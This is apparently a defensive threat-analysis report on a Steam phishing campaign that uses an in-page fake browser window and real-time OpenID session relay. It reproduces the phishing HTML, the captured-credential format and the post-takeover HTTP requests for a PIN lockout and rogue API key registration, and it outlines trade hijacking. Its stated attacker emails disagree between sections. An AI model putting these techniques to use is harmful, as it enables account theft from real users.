

# Technical Analysis: Steam OpenID AiTM & Browser-in-the-Middle (BitM) Mechanics

**Case File Reference:** `SEC-2025-AITM-004`  
**Classification:** `TLP:CLEAR`  
**Investigation Date:** 22 November 2025  
**Primary Analyst:** `@stefanutc1`  
**Threat Vector:** Browser-in-the-Middle (BitM) DOM Window Emulation, Real-Time OpenID 2.0 Session Relay, Post-Exploitation Persistence via Family View & Web API Keys

---

## 1. Laboratory Environment & Containment Topology

All forensic probing, DOM deconstruction, and network traffic captures were executed inside a tightly isolated sandbox environment:

- **Host Infrastructure:** Proxmox VE 9.2 hypervisor host (`pve_primary_x64`, `192.168.1.132`).
- **Research Guest:** Windows 10 Enterprise VM (NAT network profile, strict layer-2 isolation from production subnets).
- **Test Accounts:** Two synthetic, disposable Steam accounts created via temporary email services (`temp-mail.org`), populated with low-value testing items to observe automated bot behavior.
- **Interception Tools:** Fiddler Classic & Wireshark on guest VM; perimeter packet captures via OPNsense Suricata IDS.
- **De-provisioning:** The guest VM was reverted to a clean snapshot following evidence extraction.



---

## 2. Browser-in-the-Middle (BitM) DOM Teardown

Traditional credential harvesting redirects the browser to an external domain (e.g., `steamcomnmunity[.]com`), allowing users to detect discrepancies in the address bar. The BitM technique eliminates this indicator by keeping the user on the primary domain (`cs2-tournament-bracket[.]top`) and generating an in-page window using HTML5, CSS3, and JavaScript.

### 2.1. Simulated Window Architecture
Inspecting the DOM revealed that the popup was a layered `<div>` with `z-index: 999999`:
```html
<div class="modal-window-wrapper draggable">
  <div class="fake-browser-header">
    <div class="fake-window-controls">
      <span class="ctrl-btn close"></span>
      <span class="ctrl-btn min"></span>
      <span class="ctrl-btn max"></span>
    </div>
    <div class="fake-address-bar">
      <span class="ssl-padlock-icon">🔒</span>
      <span class="fake-url">https://steamcommunity.com/openid/login?openid.ns=http%3A%2F%2Fspecs.openid.net...</span>
    </div>
  </div>
  <iframe id="phish-auth-frame" src="/auth/openid_view.html"></iframe>
</div>
```

- **Interactive Deception:** The window header implemented JavaScript drag-and-drop event listeners (`mousedown`, `mousemove`, `mouseup`), allowing victims to drag the faux window around the viewport exactly like a native OS window.
- **SSL Indicator:** Clicking the padlock icon rendered a high-fidelity popup claiming *"Connection is secure · Certificate valid (Issued by DigiCert)"*.

---

## 3. Real-Time OpenID Session Relay Engine

### 3.1. Credential Capture & Handshake Forwarding
When the target submits credentials into the simulated frame:
1. Client-side JavaScript bundles intercept the submission and serialize the input:
   ```json
   {
     "username": "synthetic_target_user",
     "password": "DecoyPassword123!",
     "twofactorcode": "9K3R2",
     "remember_login": true,
     "captcha_text": ""
   }
   ```
2. The payload is posted to the attacker's C2 endpoint `/api/v2/auth/steam_callback`.
3. The C2 server initiates a headless HTTP session with Valve's authentic login endpoint (`https://steamcommunity.com/login/dologin/`).
4. Upon successful authentication, Valve's servers return standard authenticated session cookies:
   - **`steamLoginSecure`**: Primary cryptographic bearer token governing account access.
   - **`sessionid`**: CSRF protection token required for state-changing POST requests.
   - **`steamMachineAuth<STEAMID>`**: Machine authorization token for Steam Guard.

---

## 4. Post-Exploitation & Account Takeover Chain

Once authenticated session cookies are established, the attacker's automated worker script executes three sequential operations:

### 4.1. Family View PIN Lockout (Persistence & Denial of Recovery)
The attacker script issues a POST request to Steam's parental control interface:
```http
POST /parental/ajaxsetparental HTTP/1.1
Host: steamcommunity.com
Cookie: sessionid=89a1f02...; steamLoginSecure=76561198...%7C%7C...
Content-Type: application/x-www-form-urlencoded; charset=UTF-8

sessionid=89a1f02...&pin=4821&recovery_email=attacker_drop@mail.xyz
```
- **Operational Impact:** Steam Family View restricts access to account settings, store purchases, inventory trading, and email/password modifications unless an active 4-digit PIN is entered. By locking the account with an unknown PIN, the adversary prevents the victim from immediately revoking active sessions or altering their password.

### 4.2. Rogue Steam Web API Key Provisioning
The worker accesses `https://steamcommunity.com/dev/registerkey` and registers an arbitrary domain name to obtain a permanent Web API Key:
```http
POST /dev/registerkey HTTP/1.1
Host: steamcommunity.com
Cookie: sessionid=89a1f02...; steamLoginSecure=76561198...%7C%7C...
Content-Type: application/x-www-form-urlencoded

domain=cs2-tournament-bracket.top&agreeToTerms=agreed&sessionid=89a1f02...
```
- **Operational Impact:** The Web API Key grants continuous, programmatic read access to `IEconService/GetTradeOffers`, allowing the threat actor to monitor trade activities without needing an active web session.

### 4.3. Automated Trade Offer Interception (Skin Hijacking)
Whenever the victim initiates a trade offer (e.g., selling an item on an external marketplace like Skinport or CSFloat):
1. The attacker's bot detects the pending trade via `GetTradeOffers`.
2. The bot instantly issues a cancellation request via `CancelTradeOffer`.
3. The bot clones the destination user's profile (avatar, display name, level) on an attacker-controlled mule account.
4. The bot creates an identical trade offer from the victim's account to the impostor mule account.
5. Unsuspecting victims approve the trade on their Steam Mobile Authenticator, believing they are trading with their friend or legitimate marketplace.

---

## 5. Indicators of Compromise (IoCs)

| Type | Indicator | Attribution / Classification |
| :--- | :--- | :--- |
| **Phishing FQDN** | `cs2-tournament-bracket[.]top` | Phishing Landing Portal & Tournament Decoy |
| **C2 Host IP** | `194.38.20.182` | AS202425 (IP Volume Inc.) · Disposable VPS |
| **SSL Certificate**| `CN=cs2-tournament-bracket.top` | Let's Encrypt Free DV Certificate |
| **Reverse Proxy Endpoint** | `/api/v2/auth/steam_callback` | Real-time Credential & TOTP Ingress Handler |
| **Attacker Drop Mail** | `recovery_drop_491@proton.me` | Bound to unauthorized Family View configurations |

---

## 6. Strategic Mitigation & Cross-Analysis

- **Platform Mitigation:** Always authenticate via official platforms (`steamcommunity.com`) prior to accessing external community sites. If an OpenID portal does not automatically recognize an existing logged-in browser session, the prompt is fraudulent.
- **Related Investigation:** For a forensic analysis of how templated white-label fraud kits operate across other threat categories, see [`../task-scam-infrastructure-analysis/README.md`](../task-scam-infrastructure-analysis/README.md).
